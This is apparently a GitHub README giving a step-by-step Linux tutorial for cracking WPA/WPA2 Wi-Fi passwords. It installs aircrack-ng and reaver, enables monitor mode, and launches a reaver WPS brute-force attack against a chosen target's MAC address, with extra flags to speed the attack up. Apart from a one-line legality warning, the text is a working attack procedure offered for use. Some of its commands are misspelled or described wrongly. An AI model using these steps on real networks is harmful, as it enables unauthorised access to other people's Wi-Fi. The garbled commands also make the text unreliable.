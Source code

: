 # How to crack wpa/wpa2 passwords with linux (tested on ubuntu and Elementary OS)

In order to crack wifi passwords with linux you need to install aircrack-ng and reaver

How to isntall aircrack-ng: www.aircrack-ng.org/install.html

Form where to download reaver: https://code.google.com/p/reaver-wps/downloads/list

You might also need to install on you computer libpcap-dev and libsqlite3-dev, in order to do that just type the following lines in the terminal:
```
sudo apt-get install libpcap-dev
```
and
```
sudo apt-get install libsqlite3-dev
```

## Now, the next few line of codes you need to open the terminal

1. Firstly, discconect yourself from any wifi networks and type this code:
```
airmon-ng start wlan0
```

2. Next you need to put your wifi adapter into monitor mode, which will list all available wifi signals around you.
```
airdump-ng mon0
```
Once airdump list all availble wifi signals around, you can move to the next step, the actual attack.

3.After you decide which is you mark, all you need to do is to write this command with the marks mac adress in order to start the attack
```
reaver -i mon0 -b 00:11:22:33:44:55 -vv
```

## Cracking wifi passwords can be against the law in your country. You should not do this at all!

##TRICKS:

1. Speading the attack
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```
                        OR
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```
